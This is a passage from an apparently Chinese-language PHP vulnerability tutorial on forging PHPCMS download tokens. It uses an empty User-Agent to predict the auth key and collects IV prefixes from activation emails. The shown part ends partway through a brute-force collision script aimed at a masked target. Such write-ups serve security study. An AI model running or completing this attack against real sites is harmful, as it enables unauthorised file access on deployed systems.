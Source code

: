 ```php
if(strpos($f, 'http://') !== FALSE || strpos($f, 'ftp://') !== FALSE || strpos($f, '://') === FALSE) {

    $pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT']);

    $a_k = urlencode(sys_auth("i=$i&d=$d&s=$s&t=".SYS_TIME."&ip=".ip()."&m=".$m."&f=$f&modelid=".$modelid, 'ENCODE', $pc_auth_key));

    $downurl = '?m=content&c=down&a=download&a_k='.$a_k;

} else {

    $downurl = $f;            

}
```

當我們把user-agent置空的時候
<p>
$pc_auth_key正好就是我們需要的

```php
md5(pc_base::load_config('system','auth_key')."");
```

加密的字符串為

```php
"i=$i&d=$d&s=$s&t=".SYS_TIME."&ip=".ip()."&m=".$m."&f=$f&modelid=".$modelid
```

$i就是下載的id 從頁面可以獲得$d是downloadtype 一般是1 $s空 $t是時間。
<p>
可以從http頭獲取到$ip可知 $m為1 $f是下載文件的url 這裡長度肯定超過38了。
<p>
先來獲取郵件中的code，為了增加碰撞的概率 這裡用多個郵箱多次獲取了激活連結並收集激活連結中參數code的前4位（IV）記錄下來。


![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.2/6.2-2.jpg)

---

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.2/6.2-3.jpg)

---

![4](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.2/6.2-10.jpg)

先來寫一個小腳本來碰撞IV

```php
<?php

	$url = "http://**.**.**.**/index.php?m=content&c=down&a_k=f7c8BFEHCVEIBVYGVQJYB1ADXFNSAAxRAgcHDw5eDlMCR0oJR1oEUB5TW14RFREMHB9cWhRdWQ4CBRxHUEdQC0BPWlpOQQBOARtTGRUJEVVeQ2dDWh0AT1U%2BZ2N%2BDx0cWhEfUFwHHwxXUQNaDAVcBRVTWUEKVwhQWg";

	$reg = '#a_k=(.*?)\"#';

	$code  = array('7763','2bc5','8706','81b7','30a9','49e7','8731','9c2e','d007');

	$i=0;

for(;;)
{

    $data = doGet($url);

```